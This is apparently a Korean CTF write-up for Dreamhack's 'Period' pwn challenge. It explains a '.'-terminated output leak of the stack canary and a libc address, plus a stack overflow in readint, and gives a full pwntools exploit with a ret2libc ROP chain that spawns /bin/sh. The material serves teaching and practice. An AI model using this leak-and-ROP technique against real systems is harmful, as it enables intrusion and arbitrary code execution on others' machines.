







# [Dreamhack.io] Period Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-08-30 (solved) / 2026-09-01 (written)
- **Difficulty:** Medium
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** `/bin/sh` 실행
> - **제공 파일:**
> ```text
> ┌──── Dockerfile
> ├──── flag
> └──── deploy/
>     └──── prob
> ```
> - **보호 기법:**
> ```text
> Arch:       amd64-64-little
> RELRO:      Full RELRO
> Stack:      Canary found
> NX:         NX enabled
> PIE:        PIE enabled
> SHSTK:      Enabled
> IBT:        Enabled
> Stripped:   No
> ```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

- 다음은 ghidra로 분석한 `run` 함수이다. (`run()`은 `main()`이 호출한다.)

```c
void run(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined1 buf [264];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  writeln("Mirin, It\'s the End of Period with Period.");
  buf[0] = 0x2e;
  while( true ) {
    while( true ) {
      writeln("1: read.");
      writeln("2: write.");
      writeln("3: clear.");
      write(1,&DAT_00102058,2);
      iVar1 = readint();
      if (iVar1 != 3) break;
      cleara(buf,0x100);
    }
    if (3 < iVar1) break;
    if (iVar1 == 1) {
      writeln("Read: .");
      writeln(buf);
    }
    else {
      if (iVar1 != 2) break;
      writeln("Write: .");
      readln(buf);
    }
  }
  writeln("Invalid Command.");
  writeln("Finally, Just Watch the Curtain Fall.");
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

- `run()`은 사용자 입력에 따라 `buf` 변수에 값을 쓰거나 출력하고, 초기화를 한다.
</br></br>
- 다음은 각 함수들의 디컴파일 내용이다.

```c
void cleara(void *param_1,int param_2)

{
  memset(param_1,0x2e,(long)param_2);
  return;
}

void writeln(long param_1)

{
  int local_c;
  
  local_c = 0;
  while( true ) {
    write(1,(void *)(param_1 + local_c),1);
    if (*(char *)(param_1 + local_c) == '.') break;
    local_c = local_c + 1;
  }
  write(1,&DAT_00102008,1);
  return;
}

void readint(void)

{
  long in_FS_OFFSET;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  readln(local_28);
  atoi(local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void readln(long param_1)

{
  int local_c;
  
  for (local_c = 0;
      (local_c < 0x100 &&
      (read(0,(void *)(param_1 + local_c),1), *(char *)(param_1 + local_c) != '.'));
      local_c = local_c + 1) {
  }
  return;
}
```

- `cleara()`: 첫 번째 전달인자부터 두 번째 전달인자 바이트만큼 `0x2e`로 초기화한다.
- `writeln()`: 첫 번째 전달인자부터 `0x2e (.)`이 나올 때까지 출력한다.
- `readln()`: `0x2e(.)`이 나올 때까지 첫 번째 전달인자에 값을 입력하여 넣는다. (최대 넣은 수 있는 바이트는 0x100)
- `readint()`: `readln()` 함수를 통해 입력 받은 뒤, `atoi()`를 통해 문자열을 숫자로 변경한다.
</br></br>
- 바이너리에서 `cleara()` 함수는 `cleara(buf, 0x100)`으로 밖에 쓰이지 않는다.
- `readln()`에서 최대 0x100 바이트만큼 입력받을 수 있다는 점을 생각하면 다음과 같은 시나리오가 가능하다.
	- `readln()`에서 `0x2e`가 아닌 값을 0x100 바이트 입력한다.
	- `writeln()`을 통해 `buf` 안의 내용을 출력한다.

> - 출력의 종료는 널 바이트가 아닌 `0x2e`이다. 따라서 카나리의 랜덤한 값들 중에 `0x2e`가 있지 않는 이상, `writeln()` 함수는 카나리까지 출력할 것이다.

> - `run` 함수는 `main` 함수에서 호출된다. `main` 함수에서는 `ret` 주소와 `sfp`만 존재하고, `run` 함수를 호출하므로, 스택 프레임은
> ```
> ┌──────────────┐
> │  run() sfp   │
> ├──────────────┤
> │  run() ret   │
> ├──────────────┤
> │  main() sfp  │
> ├──────────────┤
> │  main() ret  │
> └──────────────┘
> ```
> - 위처럼 될 것이다. 만약 해당 위치에 `0x2e` 값이 없다면 `main` 함수의 리턴 주소까지 유출될 수 있다는 것이다.
> - 우리는 이 점을 이용해, `main` 함수의 리턴 주소인 `__libc_start_call_main` 주소를 알아낼 것이다.

</br></br>
- 또한, `readint()` 함수는 내부적으로 `readln()` 함수를 호출한다.
- 이때, `readint()` 함수에서 값을 받는 변수의 크기와 `readln()` 함수가 입력을 받을 수 있는 최대 바이트 수가 차이가 난다.
  (`readint()` 함수는 `char local_28 [24]` / `readln()` 함수는 `for문에서 최대 0x100 바이트`)
- 따라서, 여기서 스택 버퍼 오버플로우가 발생한다.


---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성**
> - Canary, \_\_libc_start_call_main Leak
> 	- 2번 옵션을 통해 `buf` 변수에 `0x2e`가 아닌 값을 0x100 바이트 넣는다.
> 	- 1번 옵션을 통해 `buf` 변수부터 `0x2e`가 나올 때까지 출력한다.
> - Exploit
> 	- `readint()` 함수의 Stack BOF 취약점을 이용한다.
> 	- 라이브러리 베이스 주소를 구한 이후, ROP 체인을 구성해 `run` 함수의 `RET`에 덮어쓴다.

### 각 함수들의 오프셋 구하기

> ⚠️ 도커 환경에서 인터프리터와 라이브러리 파일을 로컬로 가지고 와서 수행했습니다.

#### 1. `__libc_start_call_main`



- 도커에서 가지고 온 인터프리터와 링커를 문제 바이너리와 연결한 뒤 실행하면 `__libc_start_call_main`이라는 심볼은 없어서 직접 찾아야 했다.
- 그래서 `__libc_start_call_main`을 호출하는 `__libc_start_main` 함수에서 찾아보기로 하였다.
- 현재 함수 내부에서 `call` 명령을 수행하면서 메모리 주소 옆에 `<__cxa_atexit>`과 같이 심볼이 있지 않은 경우는 `__libc_start_main + 123` 과 `__libc_start_main + 166` 처럼 레지스터의 값을 메모리 주소 삼아 호출하는 경우이다. 



- 위 사진은 그 이후 `main` 함수에 브레이크 포인트를 걸고 실행한 이후 확인한 BACKTRACE 모습이다.
- `__libc_start_main -> __libc_start_call_main -> main` 순으로 호출이 되고, 현재 `main` 함수는 `0x7ffff7c29d90`으로 리턴한다. 그러면 이 주소는 `__libc_start_call_main`의 어딘가를 가리키고 있다.
- 또한 그 함수는 `__libc_start_main+128`로 리턴한다. 이전에 `__libc_start_main`에서 `__libc_start_main + 123`에서 `call` 명령이 이루어지는 것을 보면 `__libc_start_call_main`은 `0x7ffff7c29d10`부터 시작함을 알 수 있다.
- `vmmap`으로 확인한 라이브러리의 베이스 주소는 `0x7ffff7c00000`이다. 이를 이용해 오프셋을 구하면
```
__libc_start_call_main 의 오프셋 = 0x7ffff7c29d10 - 0x7ffff7c00000 = 0x29d10
```


#### 2. `__libc_system`



```text
__libc_system 의 오프셋 = 0x7ffff7c50d60 - 0x7ffff7c00000 = 0x50d60
```


#### 3. "/bin/sh" 문자열



- `strings` 명령어를 통해 확인해보면 `0x1d8698` 오프셋을 가진다.
  (pwndbg에서 명령어 앞에 !는 로컬 환경에서의 명령어를 pwndbg 안에서 실행해준다.)


#### 4. `pop rdi; ret`, `ret` 가젯



- `pop rdi; ret` 가젯의 오프셋은 `0x2a3e5`이다.



- `ret` 가젯의 오프셋은 `0x29cd6`이다.

---

## 4. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

def slog(name, addr): success(': '.join([name, hex(addr)]))

p = process('./prob')
# p = remote('host3.dreamhack.games', 16249)

# Leak Canary
p.sendafter(b'> ', b'2.')

p.sendafter(b'Write: .\n', b'a' * 0x100)

p.sendafter(b'> ', b'1.')

p.recvuntil(b'Read: .\n')
p.recvn(0x108)
canary = u64(p.recvn(8))

slog('canary', canary)

p.recvn(0x18)
libc_start_call_main = u64(p.recvn(8))

slog('libc_start_call_main', libc_start_call_main)

# Exploit

gdb.attach(p)
pause()

libc_base = libc_start_call_main - 128 - 0x29d10

slog('libc base', libc_base)

pop_rdi = libc_base + 0x2a3e5
ret = libc_base + 0x29cd6
system = libc_base + 0x50d60
binsh = libc_base + 0x1d8698

payload = b'A' * 0x18 + p64(canary) + b'12345678'
payload += p64(pop_rdi) + p64(binsh)
payload += p64(ret) + p64(system) + b'\x2e'

p.sendafter(b'3: clear.\n> ', payload)

p.interactive()
```

- 원격에서 익스플로잇 코드를 수행하면 결과가 잘 나온다.


